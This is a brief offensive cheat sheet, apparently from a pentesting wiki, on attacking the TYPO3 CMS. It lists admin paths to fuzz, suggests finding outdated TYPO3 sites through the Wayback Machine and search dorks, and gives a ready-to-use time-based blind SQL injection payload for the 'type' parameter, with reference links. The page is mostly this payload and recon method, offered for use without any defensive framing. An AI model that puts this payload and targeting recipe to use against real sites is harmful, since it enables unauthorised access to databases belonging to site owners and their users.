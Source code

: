 ```yaml
---
description: TYPO3 is a free enterprise-class CMS based on PHP
---
```


# Typo3

### Admin panel path

```
/fileadmin
/typo3
/typo3conf
/typo3temp
```

Try Fuzzing admin path

### SQL injection in old version

```
Find web use typo3 old version
-> waybackmachine / dork
find parameter type
?type=sql injection

Payload:
-1+OR+3 AND if(now()=sysdate(),SLEEP(9),0)-- wXyW2 AND if(now()=sysdate(),SLEEP(9),0)-- wXyW1=6 +AND+000762=000762
```

{% embed url="https://x.com/ynsmroztas/status/1792963918702489950" %}
sql injection typo3
{% endembed %}



```
https://www.ambionics.io/blog/typo3-news-module-sqli
```
